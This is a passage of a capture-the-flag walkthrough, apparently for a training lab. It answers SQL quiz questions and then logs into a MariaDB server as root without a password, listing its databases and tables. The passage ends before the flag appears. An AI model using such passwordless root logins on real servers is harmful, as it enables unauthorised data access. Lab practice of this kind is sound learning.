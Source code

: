 Answer: **root**

## Task 6

#### What symbol can we use to specify within the query that we want to display everything inside a table?

The typical common symbol that's used mean "everything", the asterisk/wildcard.

Answer: **\***

## Task 7

#### What symbol do we need to end each query with?

Looking at SQL examples, we see queries ending with a semi-colon (;)

```sql
use users_database;
```

Answer: **;**

## Task 8

#### Submit root flag

```sql
/mysql -h 10.129.19.38 -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 132
Server version: 5.5.5-10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.05 sec)

mysql> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.05 sec)
```